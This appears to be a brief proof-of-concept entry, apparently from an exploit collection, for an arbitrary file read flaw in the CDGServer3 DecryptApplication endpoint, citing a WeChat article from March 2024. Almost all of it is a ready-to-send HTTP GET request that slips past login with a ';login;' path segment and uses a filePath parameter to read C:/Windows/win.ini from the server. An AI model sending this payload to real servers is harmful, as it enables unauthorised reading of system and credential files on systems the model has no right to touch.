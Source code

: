 # cdgserver3_decryptapplication_fileread

from : https://mp.weixin.qq.com/s/Jwh_7muXZbk9k2mSmbqrAw
2024.3.18@2
```
GET /CDGServer3/client/;login;/DecryptApplication?command=ViewUploadFile&filePath=C:///Windows/win.ini&uploadFileId=1&fileName1=ox9wcxwck7g1 HTTP/1.1
Host:127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0

```
